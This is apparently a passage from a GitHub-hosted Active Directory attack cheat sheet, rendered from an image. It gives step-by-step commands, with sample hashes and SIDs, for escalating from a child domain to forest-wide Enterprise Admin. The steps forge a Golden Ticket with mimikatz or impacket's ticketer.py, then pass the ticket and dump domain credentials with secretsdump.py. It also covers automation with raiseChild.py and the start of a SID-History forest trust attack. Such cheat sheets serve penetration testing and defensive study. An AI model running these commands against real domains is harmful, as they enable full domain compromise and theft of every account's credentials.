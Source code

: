 | Name | Value |
| --- | ----------- |
| Child domain krbtgt hash | `833ef1dcc490f88a8f4a8a00859736de ` |
| Child domain SID | `S-1-5-21-3263068140-2042698922-2891547269` |
| Child domain FQDN | child.domain.local |
| Parent domain EA SID | `S-1-5-21-378720957-2217973887-3501892633-519` |

1. Forge a [Golden Ticket](#golden-ticket) that contains _extra sid_ of the parent domain's Enterprise Admins.
```css
# windows
mimikatz# kerberos::golden /user:Administrator /domain:child.domain.local [/ntlm|/aes256]:833ef1dcc490f88a8f4a8a00859736de /sid:S-1-5-21-3263068140-2042698922-2891547269 /sids:S-1-5-21-378720957-2217973887-3501892633-519 /ptt

# linux
ticketer.py -nthash 833ef1dcc490f88a8f4a8a00859736de -domain-sid S-1-5-21-3263068140-2042698922-2891547269 -domain child.domain.local -extra-sid S-1-5-21-378720957-2217973887-3501892633-519 Administrator
```

2. Use the ticket to perform Pass The Ticket (PTT) and win!. Ensure to use FQDN if you encounter any errors. _Note that if you ran mimikatz command with `/ptt` flag already does the following step. Hence you might want to skip this step_
```bash
export KRB5CCNAME=Administrator.ccache
secretsdump.py child.domain.local/Administrator@dc01.domain.local -just-dc -k -no-pass
```

Above steps could be automated with [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py) if you obtain a privileged account (i.e. Domain Admin). _-debug flag is <3_
```bash
raiseChild.py -target-exec dc-1.domain.local child.domain.local/domainadm -hashes :2e8a408a8aec852ef2e458b938b8c071 -debug
```

# Forest Trust Hopping
### SID History
This attack path is only applicable when **SID Filtering is disabled** and **SID History is enabled**. You can read the in-depth [blogpost](https://harmj0y.medium.com/a-guide-to-attacking-domain-trusts-ef5f8992bb9d) on this by harmj0y.
1. Check for `trustAttributes`  attribute. Make sure SID History is enabled
```powershell
Get-DomainTrust
[[..snip..]]
TrustAttributes : TREAT_AS_EXTERNAL
[[..snip..]]
```
If _TREAT\_AS\_EXTERNAL_ flag is set in **trustAtrributes** property, that means forst-trust is now more relaxed as stated in this [documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/e9a2d23c-c31e-4a6f-88a0-6646fdb51a3c?redirectedfrom=MSDN)
> _If this bit is set, then a cross-forest trust to a domain is to be treated as an external trust for the purposes of SID Filtering._ **_Cross-forest trusts are more stringently filtered than external trusts_**_. This attribute relaxes those cross-forest trusts to be equivalent to external trusts._
